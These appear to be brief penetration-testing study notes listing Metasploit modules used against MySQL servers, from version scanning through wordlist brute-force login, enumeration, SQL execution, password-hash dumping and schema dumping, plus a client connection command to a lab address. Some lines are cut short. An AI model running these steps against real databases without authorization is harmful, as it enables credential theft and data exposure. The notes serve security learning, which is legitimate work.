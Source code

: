 


- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_login
	- set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	- set USER_FILE /usr/share/metasploit-
	- normally its root user 
- auxiliary/admin/mysql/mysql_enum
	- needs username and password
- auxiliary/admin/mysql/mysql_sql
	- needs username and password
	- SQL query
		- set SQL show databases;
		- set SQL use videos; (name of database)
		- other commands SQL etc.. 
- auxiliary/scanner/mysql/mysql_file_enum
	- needs username and passwords and file_list
- auxiliary/scanner/mysql/mysql_hashdump
	- needs username and password
- auxiliary/scanner/mysql/mysql_schemadump
	- needs username and password
- auxiliary/scanner/mysql/mysql_writable_dirs
	- needs username and password and DIR_LIST /data/wordlist/directories.txt

to connect via mysql command
- mysql -h 192.128.23.3 -u root -p
- 

